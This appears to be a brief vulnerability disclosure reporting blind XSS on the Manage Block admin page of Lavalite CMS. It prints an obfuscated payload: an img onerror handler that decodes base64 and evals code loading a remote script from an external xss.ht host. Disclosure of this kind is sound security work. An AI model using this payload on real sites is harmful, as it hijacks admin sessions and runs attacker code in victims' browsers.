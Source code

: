# Description
Blind XSS triggered at Manage Block page of lavalite CMS admin account.
# Payload USED
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmVlZmVlLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
```
# POC
* go to manage block page, drop xss payload
* Booyah!!! XSS triggered.
# PermaLinks
[drive link](https://drive.google.com/drive/folders/1pfxCecI1sdAugHjlcW_yhKgO3331wel8?usp=sharing)
